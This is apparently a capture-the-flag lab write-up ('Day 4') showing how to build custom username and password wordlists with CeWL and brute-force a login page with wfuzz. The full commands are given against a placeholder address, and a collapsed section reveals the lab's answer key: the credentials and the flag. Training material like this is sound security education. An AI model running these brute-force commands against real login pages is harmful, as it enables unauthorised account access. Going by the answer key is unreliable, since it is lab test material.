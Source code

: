 ```yaml
---
description: Brute-forcing lab.
---
```


# Day 4: Baby, it's CeWLd Outside

### Introduction

It is identified that company credentials have been sold, leading to a hacker exploiting a portal. From logs, it is found that the brute force did not take a long time. This points to the use of a customised wordlist.

### Practical

CeWL is the tool we will use to generate a custom wordlist, CeWL spiders websites to generate wordlists based on their content. Generating a basic wordlist from CeWL and outputting it is very simple.

```
cewl http://IP_ADDR -w customlist.txt
```

This creates a wordlist from the target site and outputs it to customlist.txt. To try the brute-force here we need to use cewl to create a password list and a username list. To create the password list we use:

```
cewl -d 2 -m 5 -w passwords.txt http://IP_ADDR --with-numbers
```

\[SCREENSHOT TO ADD]

To create the username list we use:

```
cewl -d 0 -m 5 -w usernames.txt http://IP_ADDR --lowercase
```

The custom options here specify the following:

1. \-d : specifies how deep CeWL spiders, -d 2 would spider two links deep
2. \-m : specifies the minimum word length, -x can be used to specify a maximum word length
3. \-w : writes the output to a file
4. \--with-numbers : appends numbers to words
5. \--lowercase : forces all words lowercase

\[SCREENSHOT TO ADD]

With these lists we can now use wfuzz to brute-force /login.php. The following command uses our wordlists to brute force the /login.php page:

```
wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://IP_ADDR/login.php -d "username=FUZZ&password=FUZ2Z"
```

The options defined here are:

1. \-z file,username.txt : loads usernames list
2. \-z file,passwords.txt : loads passwords list
3. \--hs : hides responses containing the string "Please enter the correct credentials"
4. \-u : specify target URL
5. \-d "username=FUZZ\&password=FUZ2Z" : provides the POST data format where FUZZ is replaced by usernames and FUZ2Z is replaced by passwords.

\[SCREENSHOT TO ADD]

### Answers for Day 4

<details>

<summary>Expand to see answers!</summary>

What is the correct username and password combination? Format username:password. **isaias:Happiness**

What is the flag? **THM{m3rrY4nt4rct1crAft$}**

</details>
